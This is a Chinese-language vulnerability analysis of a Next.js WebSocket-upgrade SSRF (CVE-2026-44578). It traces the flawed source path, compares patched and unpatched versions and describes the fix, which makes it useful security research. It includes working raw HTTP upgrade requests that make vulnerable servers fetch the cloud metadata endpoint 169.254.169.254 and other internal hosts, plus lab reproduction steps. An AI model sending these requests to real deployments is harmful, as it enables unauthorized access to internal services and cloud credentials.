






# Next.js CVE-2026-44578 `proxyRequest(...)` 源码分析

本文分析的是 Next.js WebSocket upgrade handler SSRF（GHSA-c4j6-fc7j-m34r / CVE-2026-44578）。重点放在用户提到的这条代码路径：

```ts
if (urlNoQuery?.match(/(\\|\/\/)/)) {
  parsedUrl = parseUrl(normalizeRepeatedSlashes(req.url!))
  return {
    parsedUrl,
    resHeaders,
    finished: true,
    statusCode: 308,
  }
}
```

结论先说清楚：

- 在 `next@16.2.4` 这类漏洞版本里，`http://169.254.169.254/latest/meta-data/` 会先被 `normalizeRepeatedSlashes()` 变成 `http:/169.254.169.254/latest/meta-data/`，随后 `parseUrl()` 内部的 `new URL(...)` 又把它规范化成 `http://169.254.169.254/latest/meta-data/`，所以 host 会保留下来。
- 漏洞根因不是单纯的 URL 解析，而是 upgrade handler 只检查 `parsedUrl.protocol`，没有像普通 HTTP handler 那样同时检查 `finished/statusCode`。因此本该作为 `308` redirect 结束的路由结果，被错误送进 `proxyRequest(...)`。
- 未显式端口时，`http-proxy` 对 `http:` target 默认使用 `80`。所以 `http://169.254.169.254/latest/meta-data/` 会变成对 `169.254.169.254:80` 的请求。
- 但按 `next@16.2.4` 的源码和实测解析结果，`http://10.0.0.1:8080/admin` 里的显式 `:8080` 会保留，不会变成 80。网上部分文章或 PoC README 里“显式端口也会被剥离成 80”的说法，和 `16.2.4` npm 包源码不一致。

## 资料来源

源码取证：

- `npm pack next@16.2.4`：代表用户给出 `parseUrl(normalizeRepeatedSlashes(...))` 这条实现的漏洞版本。
- `npm pack next@16.2.5`：修复版对比。
- `npm pack next@15.5.15` / `next@15.5.16`：用于确认 15.x 分支差异。
- 通过 npm 包内 `.map` 文件还原到原始 TypeScript 源路径，例如 `packages/next/src/server/lib/router-server.ts`、`packages/next/src/server/lib/router-utils/resolve-routes.ts`、`packages/next/src/server/lib/router-utils/proxy-request.ts`。

公开资料：

- GitHub Advisory: https://github.com/vercel/next.js/security/advisories/GHSA-c4j6-fc7j-m34r
- NVD: https://nvd.nist.gov/vuln/detail/CVE-2026-44578
- Snyk: https://security.snyk.io/vuln/SNYK-JS-NEXT-16638682
- Next.js `v16.2.5` release: https://github.com/vercel/next.js/releases/tag/v16.2.5
- Next.js `v15.5.16` release: https://github.com/vercel/next.js/releases/tag/v15.5.16
- Hadrian 技术分析文章: https://hadrian.io/fr/blog/next-js-websocket-ssrf-unauthenticated-access-to-internal-resources-cve-2026-44578-2

## 影响范围

官方 advisory 描述的影响面是：

- `next >= 13.4.13 < 15.5.16`
- `next >= 16.0.0 < 16.2.5`
- 仅影响 self-hosted、使用 built-in Node.js server、能够收到 WebSocket upgrade request 的部署。
- Vercel-hosted deployments 不受影响。

修复版本：

- `15.5.16`
- `16.2.5`

## 漏洞版本关键源码

下面以 `next@16.2.4` 为主，因为用户给出的 `parseUrl(normalizeRepeatedSlashes(req.url))` 精确出现在这个分支。

### 1. `upgradeHandler` 漏洞点

源码位置：`packages/next/src/server/lib/router-server.ts`，`next@16.2.4` source map 还原后约第 898-912 行。

```ts
const { matchedOutput, parsedUrl } = await resolveRoutes({
  req,
  res,
  isUpgradeReq: true,
  signal: signalFromNodeResponse(socket),
})

if (matchedOutput) {
  return socket.end()
}

if (parsedUrl.protocol) {
  return await proxyRequest(req, socket, parsedUrl, head)
}
```

这里的问题是：`resolveRoutes(...)` 实际可能返回 `{ finished: true, statusCode: 308 }`，表示路由流程已经产生 redirect 响应；但是漏洞版 upgrade handler 没有解构也没有检查这两个字段。

普通 HTTP handler 在同一个文件里已有更严格逻辑：

```ts
if (finished && parsedUrl.protocol) {
  return await proxyRequest(...)
}
```

upgrade handler 漏了 `finished`，更关键的是漏了 `statusCode`，导致 308 redirect 结果也能进 proxy。

### 2. `resolveRoutes` 的 repeated slash early exit

源码位置：`packages/next/src/server/lib/router-utils/resolve-routes.ts`，`next@16.2.4` source map 还原后约第 150-163 行。

```ts
let parsedUrl = parseUrl(req.url || '')
const urlParts = (req.url || '').split('?', 1)
const urlNoQuery = urlParts[0]

if (urlNoQuery?.match(/(\\|\/\/)/)) {
  parsedUrl = parseUrl(normalizeRepeatedSlashes(req.url!))
  return {
    parsedUrl,
    resHeaders,
    finished: true,
    statusCode: 308,
  }
}
```

对普通路径来说，这段逻辑用于把 `/a//b` 或反斜杠规范化，然后让客户端 308 跳转到规范化路径。

攻击输入使用 absolute-form request target：

```http
GET http://169.254.169.254/latest/meta-data/ HTTP/1.1
Host: vulnerable.example
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
```

这里 `req.url` 是：

```text
http://169.254.169.254/latest/meta-data/
```

`urlNoQuery.match(/(\\|\/\/)/)` 会命中 `http://` 里的 `//`。

### 3. `normalizeRepeatedSlashes` 如何处理 `http://`

源码位置：`packages/next/src/shared/lib/utils.ts`，`next@16.2.4` source map 还原后约第 347-358 行。

```ts
export function normalizeRepeatedSlashes(url: string) {
  const urlParts = url.split('?')
  const urlNoQuery = urlParts[0]

  return (
    urlNoQuery
      .replace(/\\/g, '/')
      .replace(/\/\/+/g, '/') +
    (urlParts[1] ? `?${urlParts.slice(1).join('?')}` : '')
  )
}
```

对例子执行后：

```text
http://169.254.169.254/latest/meta-data/
        ||
        vv
http:/169.254.169.254/latest/meta-data/
```

也就是说，`http://` 被折叠成 `http:/`。

### 4. 为什么 `http:/xxx` 又能恢复成 host

源码位置：`packages/next/src/shared/lib/router/utils/parse-url.ts`，`next@16.2.4` source map 还原后约第 21-45 行。

```ts
export function parseUrl(url: string): ParsedUrl {
  if (url.startsWith('/')) {
    return parseRelativeUrl(url)
  }

  const parsedURL = new URL(url)
  ...
  return {
    hostname: parsedURL.hostname,
    href: parsedURL.href,
    pathname,
    port: parsedURL.port,
    protocol: parsedURL.protocol,
    ...
    slashes: parsedURL.href.slice(parsedURL.protocol.length, parsedURL.protocol.length + 2) === '//',
  }
}
```

关键是 WHATWG `URL` 对 `http:` 这类 special scheme 会接受单斜杠形式：

```js
new URL('http:/169.254.169.254/latest/meta-data/').href
// 修正为 'http://169.254.169.254/latest/meta-data/'
```

因此 `parseUrl(normalizeRepeatedSlashes(req.url))` 的结果是：

```js
{
  protocol: 'http:',
  hostname: '169.254.169.254',
  port: '',
  pathname: '/latest/meta-data/',
  href: 'http://169.254.169.254/latest/meta-data/',
  slashes: true
}
```

`resolveRoutes` 返回时同时带着：

```js
{
  finished: true,
  statusCode: 308,
  parsedUrl: { protocol: 'http:', hostname: '169.254.169.254', ... }
}
```

这本来应该表示“发送 308 到规范化 URL”，不是“允许代理”。

### 5. `proxyRequest(...)` 如何发起请求

源码位置：`packages/next/src/server/lib/router-utils/proxy-request.ts`，`next@16.2.4` source map 还原后约第 17-32 行和第 107 行。

```ts
const { query } = parsedUrl
delete (parsedUrl as any).query
parsedUrl.search = stringifyQuery(req as any, query)

const target = url.format(parsedUrl)
const HttpProxy =
  require('next/dist/compiled/http-proxy') as typeof import('next/dist/compiled/http-proxy')

const proxy = new HttpProxy({
  target,
  changeOrigin: true,
  ignorePath: true,
  ws: true,
  proxyTimeout: proxyTimeout === null ? undefined : proxyTimeout || 30_000,
  headers: {
    'x-forwarded-host': req.headers.host || '',
  },
})
...
proxy.ws(req, res, upgradeHead)
```

对上面的 `parsedUrl`：

```js
url.format(parsedUrl)
// 'http://169.254.169.254/latest/meta-data/'
```

然后 `next/dist/compiled/http-proxy` 会：

- 把 `target` 解析为目标 URL。
- `changeOrigin: true` 会把 outgoing `Host` 改成目标 host。
- `ignorePath: true` 表示不使用原始 `req.url` 作为后端路径，而使用 `target` 自身的 path。
- `ws: true` 加上 `proxy.ws(...)` 走 WebSocket upgrade proxy 分支。

在无显式端口时，`http-proxy` 的 outgoing option 等价于：

```js
{
  method: 'GET',
  protocol: 'http:',
  host: '169.254.169.254',
  hostname: '169.254.169.254',
  port: 80,
  path: '/latest/meta-data/',
  headers: {
    host: '169.254.169.254',
    connection: 'Upgrade',
    upgrade: 'websocket',
    ...
  }
}
```

最终就是 Next.js 进程向 `169.254.169.254:80` 发起请求，路径是 `/latest/meta-data/`，响应再由 proxy 流回攻击者连接。

## 例子：`http://169.254.169.254/latest/meta-data/` 的完整处理链

| 阶段 | 值 / 行为 |
|---|---|
| 攻击 request-line | `GET http://169.254.169.254/latest/meta-data/ HTTP/1.1` |
| Node `req.url` | `http://169.254.169.254/latest/meta-data/` |
| 进入 upgrade handler | `router-server.ts` 的 `upgradeHandler(req, socket, head)` |
| 调用路由解析 | `resolveRoutes({ isUpgradeReq: true })` |
| `urlNoQuery` | `http://169.254.169.254/latest/meta-data/` |
| repeated slash 检查 | 命中 `http://` 中的 `//` |
| `normalizeRepeatedSlashes(req.url)` | `http:/169.254.169.254/latest/meta-data/` |
| `parseUrl(...)` | `new URL('http:/169.254.169.254/latest/meta-data/')` |
| `parsedUrl` | `protocol='http:'`, `hostname='169.254.169.254'`, `port=''`, `pathname='/latest/meta-data/'` |
| `resolveRoutes` 返回 | `finished=true`, `statusCode=308`, `parsedUrl.protocol='http:'` |
| 漏洞版 upgrade handler | 忽略 `finished/statusCode`，只看 `parsedUrl.protocol` |
| `proxyRequest(...)` target | `http://169.254.169.254/latest/meta-data/` |
| `http-proxy` outgoing | `GET /latest/meta-data/` 到 `169.254.169.254:80` |

这也是为什么公开 advisory 说攻击者可以通过 crafted WebSocket upgrade request 让服务器访问 internal/external destinations，进而暴露 internal services 或 cloud metadata endpoints。

## 关于 `http:/xx:8080` 是否会变成 80

这里需要区分“无显式端口”和“有显式端口”。

按 `next@16.2.4` 实际源码，以下 Node 行为成立：

```js
new URL('http:/10.0.0.1:8080/admin')
// href:     'http://10.0.0.1:8080/admin'
// hostname: '10.0.0.1'
// port:     '8080'
// pathname: '/admin'
```

再进入 `url.format(parsedUrl)` 后：

```text
http://10.0.0.1:8080/admin
```

`http-proxy` outgoing option 会使用：

```js
{
  host: '10.0.0.1:8080',
  hostname: '10.0.0.1',
  port: '8080',
  path: '/admin'
}
```

所以对 `next@16.2.4` 来说：

| 输入 | normalize 后 | `parseUrl` port | 最终 target | outgoing port |
|---|---|---:|---|---:|
| `http://169.254.169.254/latest/meta-data/` | `http:/169.254.169.254/latest/meta-data/` | 空 | `http://169.254.169.254/latest/meta-data/` | `80` |
| `http://10.0.0.1:8080/admin` | `http:/10.0.0.1:8080/admin` | `8080` | `http://10.0.0.1:8080/admin` | `8080` |

因此，“`http:/xx:8080` 会变成对 `xx:80` 的请求”不是 `next@16.2.4` 源码支持的结论。准确说法是：

- 没有显式端口时，`http:` 默认端口是 `80`。
- 显式 `:8080` 在 `16.2.4` 这条 `parseUrl(new URL(...))` 路径中会保留。

### 15.x 分支的差异

我也查了 `next@15.5.15`。它的 upgrade handler 也有同样的缺失检查：

```js
const { matchedOutput, parsedUrl } = await resolveRoutes(...)
...
if (parsedUrl.protocol) {
  return await proxyRequest(req, socket, parsedUrl, head)
}
```

但是 `15.5.15` 的 repeated slash early exit 使用的是 Node legacy parser：

```js
parsedUrl = url.parse(normalizeRepeatedSlashes(req.url), true)
```

在当前 Node 行为下：

```js
url.parse('http:/169.254.169.254/latest/meta-data/', true)
// protocol: 'http:'
// hostname: null
// port: null
// pathname: '/169.254.169.254/latest/meta-data/'
```

这会让 `protocol` 仍然为真，从而触发漏洞版 upgrade handler 的 `proxyRequest(...)`，但 host 不像 16.x 的 `parseUrl(new URL(...))` 那样被恢复出来。也就是说，如果只看这个 exact early-exit 路径，15.x 和 16.x 的 host/port 保留行为不同。

更具体地说，`15.5.15` 不是“保留端口到 `parsedUrl.port`”，而是把 `host:port` 整段当成 path 的一部分：

```js
const normalized = 'http:/10.0.0.1:8080/admin'
const parsedUrl = url.parse(normalized, true)

// parsedUrl.protocol === 'http:'
// parsedUrl.host     === null
// parsedUrl.hostname === null
// parsedUrl.port     === null
// parsedUrl.pathname === '/10.0.0.1:8080/admin'
```

随后进入同一个 `proxyRequest(...)`：

```js
const { query } = parsedUrl
delete parsedUrl.query
parsedUrl.search = stringifyQuery(req, query)
const target = url.format(parsedUrl)

// target === 'http:/10.0.0.1:8080/admin'
```

`next/dist/compiled/http-proxy` 会再次 `url.parse(target)`，结果仍然没有 `host/hostname/port`。它的 `setupOutgoing(...)` 逻辑会把 outgoing 端口设为：

```js
outgoing.port = target.port || (isSSL(target.protocol) ? 443 : 80)
```

所以 `15.5.15` 下，显式写在输入里的 `:8080` 不会成为 TCP 连接端口；它只留在 HTTP path 里。实测等价 outgoing options 是：

```js
{
  port: 80,
  host: null,
  hostname: null,
  method: 'GET',
  path: '/10.0.0.1:8080/admin',
  headers: {
    host: null,
    connection: 'Upgrade',
    upgrade: 'websocket'
  }
}
```

Node `http.request(...)` 在 `host/hostname` 都为空时会使用默认 host `localhost`。也就是说，这条 exact early-exit 路径在 `15.5.15` 里更像：

```text
输入:        http://10.0.0.1:8080/admin
normalize:  http:/10.0.0.1:8080/admin
target:     http:/10.0.0.1:8080/admin
TCP 目标:    localhost:80
HTTP path:  /10.0.0.1:8080/admin
```

对无显式端口的 metadata 例子也是同理：

```text
输入:        http://169.254.169.254/latest/meta-data/
normalize:  http:/169.254.169.254/latest/meta-data/
target:     http:/169.254.169.254/latest/meta-data/
TCP 目标:    localhost:80
HTTP path:  /169.254.169.254/latest/meta-data/
```

因此，如果问题限定在 `urlNoQuery.match(...) -> url.parse(normalizeRepeatedSlashes(...)) -> proxyRequest(...)` 这条路径，`15.5.15` 不会像 `16.2.4` 一样对 `169.254.169.254` 发起 TCP 连接；也不会把输入里的 `:8080` 保留为网络端口。它会默认连 `localhost:80`，把原来的 `host[:port]` 放进 path。

这也意味着 `15.5.15` 的 metadata 利用结论要降级看待：

- `GET http://169.254.169.254/latest/meta-data/ ... Upgrade: websocket` 在这条路径下不会连接 `169.254.169.254:80`。
- 它会连接本机默认目标，例如 `localhost:80`，路径变成 `/169.254.169.254/latest/meta-data/`。
- 如果攻击者构造 `http:/admin` 或经过 normalization 后得到 `http:/admin`，则可以让 proxy 请求 `localhost:80/admin`。所以 15.x 仍可能是 loopback SSRF。
- 这种 loopback SSRF 是否有利用价值，取决于目标服务器本机 `127.0.0.1:80` 或 `localhost:80` 是否跑了只允许本机访问的管理面、反代、debug endpoint、metadata proxy、sidecar 等服务。
- 如果本机 80/443 没有敏感服务，且不能通过 path/Host 触发内部功能，那么 15.5.15 这条 exact 路径的实际价值确实很有限。

官方 advisory 仍然把 `>=13.4.13 <15.5.16` 列为受影响范围；但用户给出的 `parseUrl(normalizeRepeatedSlashes(...))` 这段实现和“`http:/host` 恢复成 host”的机制，最贴合的是 16.x 分支。

## 漏洞复现

### 15.5.15版本

```
输入:        http://10.0.0.1:8080/admin
normalize:  http:/10.0.0.1:8080/admin
target:     http:/10.0.0.1:8080/admin
TCP 目标:    localhost:80
HTTP path:  /10.0.0.1:8080/admin
```

开启本地80端口的监听

```http
GET http://info.html HTTP/1.1
Host: 192.168.1.191:3000
Connection: Upgrade
Upgrade: websocket
Sec-WebSocket-Version: 13
Sec-WebSocket-Key: dGhlIHNhbXBsZSBub25jZQ==
User-Agent: Mozilla/5.0


```





成功将请求转发到本机的80端口，获取info.html

即使请求别的Host和Port，比如：`http://192.168.1.208:8080/ssrf` 



也会被转发到Localhost，当成HTTP Path处理：



### 16.2.4版本

| 输入                                       | normalize 后                              | `parseUrl` port | 最终 target                                | outgoing port |
| ------------------------------------------ | ----------------------------------------- | --------------: | ------------------------------------------ | ------------: |
| `http://169.254.169.254/latest/meta-data/` | `http:/169.254.169.254/latest/meta-data/` |              空 | `http://169.254.169.254/latest/meta-data/` |          `80` |
| `http://10.0.0.1:8080/admin`               | `http:/10.0.0.1:8080/admin`               |          `8080` | `http://10.0.0.1:8080/admin`               |        `8080` |



成功SSRF请求到别的机器的8080端口



可以看到来源IP是靶机IP，说明该版本可以指定Host和Port进行SSRF请求

## 修复版做了什么

`next@16.2.5` 在 `packages/next/src/server/lib/router-server.ts` 中把 upgrade handler 改成：

```ts
const { finished, matchedOutput, parsedUrl, statusCode } =
  await resolveRoutes({
    req,
    res,
    isUpgradeReq: true,
    signal: signalFromNodeResponse(socket),
  })

if (matchedOutput) {
  return socket.end()
}

if (finished && parsedUrl.protocol) {
  if (!statusCode) {
    return await proxyRequest(req, socket, parsedUrl, head)
  }

  return socket.end()
}
```

修复点：

- upgrade handler 现在读取 `finished`。
- 只有路由明确完成且 `parsedUrl.protocol` 存在时才考虑 proxy。
- 如果 `statusCode` 存在，比如 repeated slash early exit 返回的 `308`，就 `socket.end()`，不进入 `proxyRequest(...)`。

这和 GitHub advisory 中“对 WebSocket upgrade handling 应用普通 HTTP requests 已有的 safety checks”的描述一致。

## 攻击条件和限制

基于官方 advisory、Snyk、NVD 以及源码行为，利用条件是：

- self-hosted Next.js，使用 built-in Node.js server。
- 版本落在受影响范围。
- 攻击者能向 Next.js origin 直接发送 HTTP/1.1 WebSocket upgrade request。
- 目标资源能从 Next.js 服务器网络侧访问。

限制：

- 这条路径是 `GET` + WebSocket upgrade proxy。
- 无显式端口的 `http:` target 默认走 80。
- `next@16.2.4` 源码不支持“显式 `:8080` 被剥离成 80”的说法；显式端口会保留。
- 如果前置反向代理拒绝 absolute-form request target、阻断 WebSocket upgrade，或者 egress 策略禁止访问 metadata/internal network，可以降低或阻断利用。

## 最小复盘

漏洞不是因为 Next.js “主动信任了 `http://169.254.169.254/...`”，而是几个行为叠加：

1. HTTP/1.1 absolute-form request target 可以让 `req.url` 变成完整 URL。
2. `http://` 中的 `//` 命中 repeated slash normalization。
3. `normalizeRepeatedSlashes()` 把它改成 `http:/...`。
4. 16.x 的 `parseUrl()` 用 WHATWG `new URL(...)`，把 `http:/...` 规范化回带 host 的 `http://...`。
5. `resolveRoutes()` 返回 `finished: true, statusCode: 308`，这本应终止流程。
6. 漏洞版 upgrade handler 忽略 `finished/statusCode`，只要 `parsedUrl.protocol` 存在就调用 `proxyRequest(...)`。
7. `proxyRequest(...)` 把 `parsedUrl` 格式化为 target，并让 `http-proxy` 对 target 发起请求。
